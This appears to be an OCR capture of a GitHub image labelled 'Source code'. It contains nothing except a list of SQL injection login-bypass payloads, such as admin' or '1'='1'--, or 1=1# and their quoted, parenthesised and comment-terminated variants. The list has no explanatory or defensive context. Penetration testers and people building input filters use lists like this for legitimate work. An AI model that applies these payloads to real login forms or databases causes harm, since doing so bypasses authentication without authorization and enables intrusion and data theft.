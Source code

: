 # d
or 1=1
# 

or 1=1--
#
or 1=1#
#
or 1=1/*
#
admin' --
#
admin' #
##
admin' /*
*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ( '1'='1
admin') or ( '1'='1'--
admin') or ( '1'='1'#
admin') or ( '1'='1'/*
admin') or '1'='1
admin') or '1'='1'
admin') or '1'='1'#
admin') or '1'='1'/*

admin" #
admin" /*
admin" --
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin" or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
